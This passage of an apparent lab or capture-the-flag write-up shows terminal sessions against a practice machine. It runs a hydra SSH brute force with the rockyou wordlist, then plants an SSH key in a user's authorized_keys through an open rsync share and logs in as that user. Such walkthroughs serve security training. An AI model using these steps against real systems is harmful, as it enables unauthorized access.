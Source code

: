 ```
┌──(kali㉿kali)-[~/offsec/fail]
└─$ hydra -l fox -P /usr/share/wordlists/rockyou.txt ssh://fail                       
...
```

I think we can upload files through rsync... maybe we can upload an ssh key.

I generate the key

```
┌──(kali㉿kali)-[~/offsec/fail]
└─$ ssh-keygen       
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/kali/.ssh/id_ed25519): /home/kali/offsec/fail/id_ed25519
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/offsec/fail/id_ed25519
Your public key has been saved in /home/kali/offsec/fail/id_ed25519.pub
The key fingerprint is:
SHA256:XEcrdQKOaE9bMvxAQo2KedMwafDyJwfrePfvBXIxTj0 kali@kali
The key's randomart image is:
+--[ED25519 256]--+
|  .. ooo. ..+ .  |
|   .= .=.o + +   |
|  .+o=o B O E    |
|  oo++.+ @ = .   |
|   .+.o S =      |
|   o +   o .     |
|  . o .     .    |
|   . . .   .     |
|        .oo      |
+----[SHA256]-----+
```

I upload the key to the public key to the remote machine

```
┌──(kali㉿kali)-[~/offsec/fail]
└─$ rsync -av id_ed25519.pub rsync://192.168.151.126/fox/.ssh/authorized_keys
sending incremental file list
created directory /.ssh
id_ed25519.pub

sent 203 bytes  received 35 bytes  20.70 bytes/sec
total size is 91  speedup is 0.38
```

And I try to connect via ssh with the private key

```
┌──(kali㉿kali)-[~/offsec/fail]
└─$ ssh fox@fail -i id_ed25519
Linux fail 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Mar 16 13:44:20 2024 from 192.168.45.172
$ whoami
fox
```
